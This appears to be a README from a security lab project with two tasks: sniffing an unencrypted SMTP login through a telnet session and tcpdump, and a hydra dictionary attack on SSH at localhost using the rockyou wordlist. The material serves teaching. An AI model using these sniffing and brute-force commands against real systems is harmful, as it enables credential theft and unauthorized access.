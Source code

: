 # Attack is the best defense

## Resource

- [Network sniffing](https://www.lifewire.com/definition-of-sniffer-817996)
- [ARP spoofing](https://www.veracode.com/security/arp-spoofing)
- [Connect to SendGrid’s SMTP relay using telnet](https://docs.sendgrid.com/ui/account-and-settings/troubleshooting-delays-and-latency)
- [What is Docker and why is it popular?](https://www.zdnet.com/article/what-is-docker-and-why-is-it-so-darn-popular/)
- [Dictionary attack](https://en.wikipedia.org/wiki/Dictionary_attack)

## Tasks

<details>
<summary><a href="./0-sniffing">0. ARP spoofing and sniffing unencrypted traffic</a></summary><br>

<a href='https://postimg.cc/dZFTgZM5' target='_blank'><img src='https://i.postimg.cc/nrjYjq3f/image.png' border='0' alt='image'/></a>

```sh
sylvain@ubuntu$ telnet smtp.sendgrid.net 587
Trying 167.89.121.145...
Connected to smtp.sendgrid.net.
Escape character is '^]'.
220 SG ESMTP service ready at ismtpd0013p1las1.sendgrid.net
EHLO ismtpd0013p1las1.sendgrid.net
250-smtp.sendgrid.net
250-8BITMIME
250-PIPELINING
250-SIZE 31457280
250-STARTTLS
250-AUTH PLAIN LOGIN
250 AUTH=PLAIN LOGIN
auth login           
334 VXNlcm5hbWU6
VGhpcyBpcyBteSBsb2dpbg==
334 UGFzc3dvcmQ6
WW91IHJlYWxseSB0aG91Z2h0IEkgd291bGQgbGV0IG15IHBhc3N3b3JkIGhlcmU/ISA6RA==
235 Authentication successful
mail from: sylvain@kalache.fr
250 Sender address accepted
rcpt to: julien@google.com
250 Recipient address accepted
data
354 Continue
To: Julien
From: Sylvain
Subject: Hello from the insecure world

I am sending you this email from a Terminal.
.
250 Ok: queued as Aq1zhMM3QYeEprixUiFYNg
quit
221 See you later
Connection closed by foreign host.
sylvain@ubuntu$ 
```

<a href='https://postimages.org/' target='_blank'><img src='https://i.postimg.cc/kG0NxDH6/image.png' border='0' alt='image'/></a>

```sh
# Run this when there is no other process running,
# ...tried to find a way to specifically filter the specif process but
# ...the best option was to run it in a virtual enviroment
# ...also base64 should be your best friend
sudo tcpdump -A -l
```

- [user\_authenticating\_into\_server](./user_authenticating_into_server) binary script file.

</details>

<details>
<summary><a href="./1-dictionary_attack">1. Dictionary attack</a></summary><br>

<a href="https://ibb.co/Ltr6sZh"><img src="https://i.ibb.co/7WQV01N/image.png" alt="image" border="0"></a>

- [Wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) **Rockyou.txt**

```sh
# command
hydra -V -s 2222 -l sylvain -P rockyou.txt 127.0.0.1 ssh -t 64
```

</details>


